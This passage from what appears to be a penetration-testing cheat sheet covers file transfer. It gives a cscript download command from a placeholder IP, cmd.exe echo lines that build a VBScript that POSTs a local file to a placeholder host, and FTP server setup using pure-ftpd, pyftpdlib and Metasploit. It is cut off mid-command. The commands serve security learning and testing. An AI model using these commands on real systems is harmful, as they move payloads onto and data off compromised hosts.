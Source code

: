 	- usage
	```cmd
	cscript wget.vbs http://<ip_address>:8090/<file_name> <file_name>
	```

- **Client** commands in cmd.exe to create **upload** script (change `<ip_to_upload>`)

	```cmd
	echo Dim strURL > wget_u.vbs
	echo Dim HTTP >> wget_u.vbs
	echo Dim dataFile >> wget_u.vbs
	echo Dim dataRequest >> wget_u.vbs
	echo Dim objStream >> wget_u.vbs
	echo strURL = "http://<ip_to_upload>/" >> wget_u.vbs
	echo Set HTTP = CreateObject("Microsoft.XMLHTTP") >> wget_u.vbs
	echo Set objStream = CreateObject("ADODB.Stream") >> wget_u.vbs
	echo objStream.Type = 2 >> wget_u.vbs
	echo objStream.Open >> wget_u.vbs
	echo objStream.LoadFromFile "http.txt" >> wget_u.vbs
	echo dataFile = objStream.ReadText >> wget_u.vbs
	echo dataRequest = "dataFile=" ^& dataFile >> wget_u.vbs
	echo HTTP.open "POST", strURL, False >> wget_u.vbs
	echo HTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded" >> wget_u.vbs
	echo HTTP.setRequestHeader "Content-Length", Len(dataRequest) >> wget_u.vbs
	echo WScript.Echo "Now uploading file G:\Http\http.txt" >> wget_u.vbs
	echo HTTP.send dataRequest >> wget_u.vbs
	echo WScript.Echo HTTP.responseText >> wget_u.vbs
	echo Set HTTP = Nothing >> wget_u.vbs
	```
	- usage

-------------------------------

## ftp (File Transfer Protocol)

- about tool and protocol
	- default server ports: 20, 21
	- use mode `binary` whenewher you can
- **Server**	setup in `bash`
	- _Method 1_ (via pure-ftpd package)
	```bash
	apt-get update && apt-get install pure-ftpd -y
	groupadd ftpgroup
	useradd -g ftpgroup -d /dev/null ftpuser 
	mkdir -p /home/ftpuser
	pure-pw useradd ftpuser -u ftpuser -d /home/ftpuser
	pure-pw mkdb
	```
	With `pure-pw useradd` you must setup a password for a user (it can be blank)
	```bash
	cd /etc/pure-ftpd/auth/
	ln -s ../conf/PureDB 60pdb
	chown -R ftpuser:ftpgroup /home/ftpuser
	/etc/init.d/pure-ftpd restart
	```
	- _Method 2_ via python module `python-pyftpdlib ` (flag `-w` allows to write in server's folder)
	```bash
	apt-get install python-pyftpdlib  
	python -m pyftpdlib -p 21 -w
	```
	- _Method 3_ via `msf-ftp-server`
	```bash
	msf console
	use auxiliary/server/ftp
